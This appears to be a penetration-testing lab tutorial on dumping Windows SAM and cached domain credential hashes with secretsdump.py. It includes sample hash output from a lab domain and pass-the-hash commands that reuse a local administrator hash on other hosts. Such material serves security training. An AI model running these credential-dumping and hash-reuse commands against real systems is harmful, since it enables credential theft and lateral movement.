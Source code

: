 ## **Dumping Hashes with Secretsdump.py**


## **Usage**


```powershell
# Dumping SAM hashes
# secretsdump.py domain.tld/user:password@target_IP

$ secretsdump.py MARVEL.local/fcastle:Password1@192.168.0.132
```


**_Dumped Hashes :_**


```shell
--SNIP--

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xa9b4a5489c5689b25cb65a48804aa1cc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:938bb6f7cdaf9b1856e880fd28de914b:::
frankcastle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c
MARVEL.local/fcastle:$DCC2$10240#fcastle#e6f48c2526bd594441d3da3723155f6f


--SNIP--
```


**Note :** You should always focus on the hashes of  `administrator` and other users like `frankcastle` in our place, usually Guest, DefaultAccount and WDAGUtilityAccount are more of defaults account so there is no much to worry about.

Also watch out for **Wdigest** password cos' it is an old protocol on Windows 7, Windows 8 , 2008 R2 servers, This is used to store passwords in clear text 



### **Dumping Individual hashes with local admin hash**

sometimes we might not be able to dump hashes by just specifying the user like we did in the first step, we where able to dump `MARVEL.local/fcastle` hash but we where not able to dump `MARVEL.local/pparkers` hash, If we can dump a user hash, we can copy the local admin hash and try it out with other users to see if they share the same admin hash, then we can get a user hash from there

```powershell
# Dumping peterparker hash with local admin hash
$ secretsdump.py administrator:@192.168.0.132 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```



![](https://i.imgur.com/4nSVJeN.jpg)


```powershell
# dumping peterparker hash with the local admin hash we got from fcastle
$ secretsdump.py administrator:@192.168.0.183 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```



![](https://i.imgur.com/MKOGwFO.jpg)


**Note :** The only thing that changes here is the IP address of each user, every command option stays the same




## **Cracking Hashes**